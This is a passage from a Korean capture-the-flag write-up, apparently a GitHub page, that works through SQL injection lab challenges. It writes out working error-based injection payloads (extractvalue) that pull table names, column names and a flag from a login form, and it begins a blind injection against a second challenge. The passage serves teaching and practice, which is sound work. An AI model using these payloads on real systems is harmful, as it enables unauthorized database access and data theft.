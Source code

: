> 데이터 베이스 이름: **sqli_2_2**

이를 이용하여 **테이블명과 컬럼명, 그리고 최종 데이터**까지 추출해보겠다.

```html
' or extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='sqli_2_2' limit 0,1))) and '1'='1
```

> 테이블 이름: **flagTable_this**

**컬럼명 추출:**
```html
' or extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='sqli_2_2' and table_name='flagTable_this' limit 1,1))) and '1'='1
```

> 컬럼 이름: **idx**, **flag**

- 이제 최종 flag 데이터를 추출해보겠다.

```html
' or extractvalue(1,concat(0x7e,(select flag from flagTable_this limit 13,1))) and '1'='1
```

![sqli5 flag](./screenshots/sqli5_flag.png)

**이렇게 최종 flag를 획득하였다.**

---

### SQL Injection 6

- 이번 문제 역시 이전과 동일한 로그인 화면으로 시작된다.
> 계정 : normaltic / 1234

- 로그인에 성공할 경우에는 `302 리다이렉션`, 실패할 경우에는 `200 OK 응답`이 반환된다.

이를 기반으로, SQL 인젝션이 가능한지 테스트를 진행해보겠다.

- 아까와 똑같이 `normaltic' and '1'='1`을 입력했을 때는 **302 리다이렉션**이 발생하고,
`normaltic' and '1'='2`를 입력했을 때는 **200 OK 응답**이 반환되었다.

하지만 이번에는 **Error Based SQL Injection** 기법을 시도했으나, **서버 측 필터링 또는 예외 처리로 인해 동작하지 않았다.**
따라서 이번에는 **Blind SQL Injection** 방식으로 공격을 진행해보겠다

```html
normaltic' or ascii(substring(database(),1,1))=115 and '1'='1
```

